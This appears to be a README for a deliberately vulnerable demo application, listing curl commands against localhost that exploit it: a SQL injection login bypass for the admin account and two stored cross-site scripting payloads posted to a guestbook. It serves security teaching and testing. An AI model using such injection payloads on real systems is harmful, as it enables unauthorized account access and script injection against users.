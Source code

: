 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## SQL injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" -H "Content-Type: application/json" -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" -v && echo ""
```

## Cross-site scripting

```bash
# Create a button that executed code when clicked
curl -X POST "http://localhost:8080/api/messages" -H "Content-Type: application/json" -d "{\"userId\": 1, \"message\": \"<button onclick=\\\"alert('pwned')\\\">Click me</button>\"}" -v && echo ""

# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" -H "Content-Type: application/json" -d "{\"userId\": 1, \"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" -v && echo ""
```
